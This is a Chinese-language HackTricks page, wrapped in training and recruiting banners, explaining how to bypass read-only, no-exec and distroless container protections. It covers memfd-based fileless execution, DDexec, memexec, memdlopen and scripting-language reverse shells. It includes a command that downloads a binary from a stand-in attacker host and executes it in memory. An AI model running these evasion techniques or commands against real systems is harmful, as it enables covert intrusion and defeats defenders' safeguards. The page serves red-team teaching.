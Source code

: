 # 绕过文件系统保护：只读 / 无执行 / Distroless

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

如果你对 **黑客职业** 感兴趣并想要攻克不可攻克的目标 - **我们正在招聘！** (_需要流利的波兰语书写和口语能力_).

{% embed url="https://www.stmcyber.com/careers" %}

## 视频

在以下视频中，你可以找到本页提到的技术的更深入解释：

* [**DEF CON 31 - 探索 Linux 内存操控以实现隐蔽和规避**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**使用 DDexec-ng 和内存 dlopen() 的隐蔽入侵 - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## 只读 / 无执行场景

在 Linux 机器上发现 **只读 (ro) 文件系统保护** 的情况越来越普遍，特别是在容器中。这是因为运行一个只读文件系统的容器就像在 `securitycontext` 中设置 **`readOnlyRootFilesystem: true`** 一样简单：

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

然而，即使文件系统被挂载为只读，**`/dev/shm`** 仍然是可写的，因此我们不能写入磁盘的说法是错误的。然而，这个文件夹将被 **挂载为无执行保护**，所以如果你在这里下载一个二进制文件，你 **将无法执行它**。

{% hint style="warning" %}
从红队的角度来看，这使得 **下载和执行** 系统中未存在的二进制文件（如后门或枚举工具如 `kubectl`）变得 **复杂**。
{% endhint %}

## 最简单的绕过：脚本

请注意，我提到的是二进制文件，你可以 **执行任何脚本**，只要解释器在机器内部，比如如果 `sh` 存在则可以执行 **shell 脚本**，或者如果安装了 `python` 则可以执行 **python 脚本**。

然而，这并不足以执行你的二进制后门或其他你可能需要运行的二进制工具。

## 内存绕过

如果你想执行一个二进制文件，但文件系统不允许这样做，最好的方法是 **从内存中执行它**，因为 **保护措施不适用于那里**。

### FD + exec 系统调用绕过

如果你在机器内部有一些强大的脚本引擎，比如 **Python**、**Perl** 或 **Ruby**，你可以将二进制文件下载到内存中执行，存储在一个内存文件描述符中（`create_memfd` 系统调用），这个描述符不会受到这些保护的影响，然后调用 **`exec` 系统调用** 指定 **fd 作为要执行的文件**。

为此，你可以轻松使用项目 [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec)。你可以传递一个二进制文件，它将生成一个指定语言的脚本，包含 **压缩和 b64 编码的二进制文件**，并带有 **解码和解压缩** 的指令，存储在通过调用 `create_memfd` 系统调用创建的 **fd** 中，并调用 **exec** 系统调用来运行它。

{% hint style="warning" %}
这在其他脚本语言如 PHP 或 Node 中不起作用，因为它们没有任何 **默认方式从脚本调用原始系统调用**，因此无法调用 `create_memfd` 来创建 **内存 fd** 来存储二进制文件。

此外，使用 `/dev/shm` 中的文件创建 **常规 fd** 也不起作用，因为你将无法运行它，因为 **无执行保护** 将适用。
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) 是一种技术，允许你通过覆盖 **`/proc/self/mem`** 来 **修改你自己进程的内存**。

因此，**控制正在被进程执行的汇编代码**，你可以编写 **shellcode** 并“变异”进程以 **执行任何任意代码**。

{% hint style="success" %}
**DDexec / EverythingExec** 将允许你从 **内存** 中加载和 **执行** 你自己的 **shellcode** 或 **任何二进制文件**。
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
有关此技术的更多信息，请查看 Github 或：

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) 是 DDexec 的自然下一步。它是一个 **DDexec shellcode demonised**，因此每次您想要 **运行不同的二进制文件** 时，您无需重新启动 DDexec，只需通过 DDexec 技术运行 memexec shellcode，然后 **与此守护进程通信以传递要加载和运行的新二进制文件**。

您可以在 [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php) 找到如何使用 **memexec 从 PHP 反向 shell 执行二进制文件** 的示例。

### Memdlopen

与 DDexec 具有类似目的的 [**memdlopen**](https://github.com/arget13/memdlopen) 技术允许以 **更简单的方式加载二进制文件** 到内存中以便稍后执行。它甚至可以加载带有依赖项的二进制文件。

## Distroless Bypass

### 什么是 distroless

Distroless 容器仅包含 **运行特定应用程序或服务所需的最低组件**，例如库和运行时依赖项，但排除了较大的组件，如包管理器、shell 或系统实用程序。

distroless 容器的目标是 **通过消除不必要的组件来减少容器的攻击面**，并最小化可以被利用的漏洞数量。

### 反向 Shell

在 distroless 容器中，您可能 **甚至找不到 `sh` 或 `bash`** 来获取常规 shell。您也不会找到 `ls`、`whoami`、`id` 等二进制文件……您通常在系统中运行的所有内容。

{% hint style="warning" %}
因此，您 **将无法** 获取 **反向 shell** 或 **枚举** 系统，如您通常所做的那样。
{% endhint %}

然而，如果被攻陷的容器正在运行例如 flask web，那么 python 已安装，因此您可以获取 **Python 反向 shell**。如果它正在运行 node，您可以获取 Node 反向 shell，几乎任何 **脚本语言** 也是如此。

{% hint style="success" %}
使用脚本语言，您可以 **使用语言功能枚举系统**。
{% endhint %}

如果没有 **`read-only/no-exec`** 保护，您可以利用您的反向 shell **在文件系统中写入您的二进制文件** 并 **执行** 它们。

{% hint style="success" %}
然而，在这种类型的容器中，这些保护通常会存在，但您可以使用 **先前的内存执行技术来绕过它们**。
{% endhint %}

您可以在 [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE) 找到 **示例**，了解如何 **利用一些 RCE 漏洞** 获取脚本语言的 **反向 shell** 并从内存中执行二进制文件。

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

如果您对 **黑客职业** 感兴趣并想要攻克不可攻克的目标 - **我们正在招聘！** (_需要流利的波兰语书写和口语能力_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **在 Twitter 上关注** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
